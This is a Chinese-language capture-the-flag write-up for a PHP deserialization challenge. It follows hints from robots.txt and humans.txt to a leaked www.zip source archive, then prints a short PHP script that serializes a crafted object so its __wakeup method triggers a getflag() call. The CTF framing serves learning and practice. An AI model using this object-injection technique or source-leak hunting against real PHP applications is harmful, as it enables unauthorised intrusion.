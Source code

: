 > 穿山甲对“毒雾”黑客组织进行反渗透的时候，无意间进入到了该组织的医院。穿山甲发现医院里充斥着一种怪病，被这种病感染上的人都会不断的进行复读，细心的穿山甲发现，虽然病人复读的内容看起来杂乱无章，仔细一看其实是一种“序列化”的内容，穿山甲怀疑这就是“毒雾”隐藏绝密情报的一种方法

根据题干显示就是php反序列化，那么只要找php代就好了。关于php反序列化大家可以自行查找一下，我就不多解释了。
这题挺有意思的，进去我们很容易就能看出漏洞点在哪，现在开始找php代码.
![此处输入图片的描述][12]
大家注意看9号的提醒，robots,联想到robots.txt。

> If you see a garbled code, please change the encoding mode of the
> browser.(please using baidu translate or google translate)
> 
> cl0und：你们两个各说一句话证明自己是humans Daedalus：我有我爱的人，我很爱他，我不想离♂开他
> Mang0：你们两个各说一句话证明自己是humans
> 
> 
> ps.这个东西叫做robots.txt pss.改变下名字试试？ psss.humans的本质是?
> 
> 有戏，试试humans.txt吧， If you see a garbled code, please change the
> encoding mode of the browser.(please using baidu translate or google
> translate)
> 
> 这跟我是个冷酷无情的复读机有什么关系吗
> 
> 我最近在复读的同时看到了一份源码，好像是叫www.zip这种东西

在www.zip里下载到源码。
根据源码分析可知，在获取到message后会将他进行反序列化传给后台，根据提示，我们只需要将他给序列化就好了。

    <?php
    class Daedalus{
        function __construct($test)
        {
           getflag();
        }
    }
    class Mang0{
        var $message="hello_new_geek";
        function __wakeup()
        {
            $newgay = new Daedalus($this->message);
        }
    }
    
    
    //$message = hello_new_geek;
    $mango = new Mang0();
    $mango->message='hello_new_geek';
    
    echo serialize($mango);
    ?>

如上将其序列化内容输入即可得到答案。


  [1]: https://s1.ax1x.com/2018/10/28/igArlj.png
  [2]: https://s1.ax1x.com/2018/10/28/igAs6s.png
  [3]: https://s1.ax1x.com/2018/10/28/igAyXn.png
  [4]: https://s1.ax1x.com/2018/10/28/igAcmq.png
  [5]: https://s1.ax1x.com/2018/10/28/igAg00.png
  [6]: https://s1.ax1x.com/2018/10/28/igAWkT.png
  [7]: https://s1.ax1x.com/2018/10/28/igAhhF.png
  [8]: https://s1.ax1x.com/2018/10/28/igA5p4.png
  [9]: https://s1.ax1x.com/2018/10/28/igAI1J.png
  [10]: https://s1.ax1x.com/2018/10/28/igAoc9.png
  [11]: https://s1.ax1x.com/2018/10/28/igATXR.png
  [12]: https://s1.ax1x.com/2018/10/28/igAb0x.png